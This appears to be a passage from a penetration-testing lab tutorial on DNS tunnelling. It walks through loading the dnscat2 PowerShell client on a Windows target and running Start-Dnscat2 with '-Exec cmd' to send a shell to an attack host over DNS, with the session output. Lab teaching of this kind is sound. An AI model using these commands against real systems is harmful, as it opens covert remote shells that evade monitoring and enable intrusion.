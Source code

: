After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use dnscat2-powershell, a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.

### Cloning dnscat2-powershell to the Attack Host
```
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
### Importing dnscat2.ps1
```
PS C:\htb> Import-Module .\dnscat2.ps1
```
After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.
```
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
We must use the pre-shared secret (-PreSharedSecret) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

### Confirming Session Establishment
```
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```
We can list the options we have with dnscat2 by entering ? at the prompt.









